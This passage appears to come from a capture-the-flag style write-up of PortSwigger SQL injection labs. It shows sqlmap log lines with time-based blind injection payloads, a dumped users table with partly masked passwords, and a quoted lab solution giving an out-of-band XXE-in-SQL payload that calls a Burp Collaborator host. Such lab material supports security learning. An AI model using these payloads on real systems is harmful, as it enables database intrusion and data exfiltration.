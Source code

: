 ```bash
[05:11:47] [PAYLOAD] s1ISxDhHj6xi5i3H' AND 5323=(CASE WHEN (ASCII(SUBSTRING((SELECT COALESCE(CAST(username AS VARCHAR(10000))::text,(CHR(32))) FROM public.users ORDER BY password OFFSET 2 LIMIT 1)::text FROM 14 FOR 1))>48) THEN (SELECT 5323 FROM PG_SLEEP(4)) ELSE 5323 END)-- AATS
[05:11:48] [PAYLOAD] s1ISxDhHj6xi5i3H' AND 5323=(CASE WHEN (ASCII(SUBSTRING((SELECT COALESCE(CAST(username AS VARCHAR(10000))::text,(CHR(32))) FROM public.users ORDER BY password OFFSET 2 LIMIT 1)::text FROM 14 FOR 1))>1) THEN (SELECT 5323 FROM PG_SLEEP(4)) ELSE 5323 END)-- AATS
[05:11:49] [INFO] retrieved: administrator
[05:11:49] [DEBUG] performed 95 queries in 218.25 seconds
[05:11:49] [DEBUG] analyzing table dump for possible password hashes
Database: public
Table: users
[3 entries]
+----------------------+---------------+
| password             | username      |
+----------------------+---------------+
| 36l5hnu****wni9m9wuv | wiener        |
| c31opx2f****wmdpjiav | carlos        |
| ephwfa6js****zsqp0fs | administrator |
+----------------------+---------------+
```

#### Blind SQL injection with out-of-band interaction

> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics,  and performs an SQL query containing the value of the submitted cookie.        
>
> The SQL query is executed asynchronously and has no effect  on the application's response. However, you can trigger out-of-band  interactions with an external domain.        
>
> To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.        

<div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
                    <li>
                        Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the <code>TrackingId</code> cookie.
                    </li>
                    <li>
                        <p>
                            Modify the <code>TrackingId</code> cookie, changing it to a payload that will trigger an interaction with the Collaborator server. For example, you can combine SQL injection with basic XXE techniques as follows:
                        </p>
                        <code class="code-scrollable">TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('&lt;%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f&gt;&lt;!DOCTYPE+root+[+&lt;!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/"&gt;+%25remote%3b]&gt;'),'/l')+FROM+dual--</code>
                    </li>
                </ol>
                <p>
                    The solution described here is sufficient simply to trigger a DNS lookup and so solve the lab. In a real-world situation, you would use Burp Collaborator client to verify that your payload had indeed triggered a DNS lookup and potentially exploit this behavior to exfiltrate sensitive data from the application. We'll go over this technique in the next lab.
                </p>
            </div>
        </div>
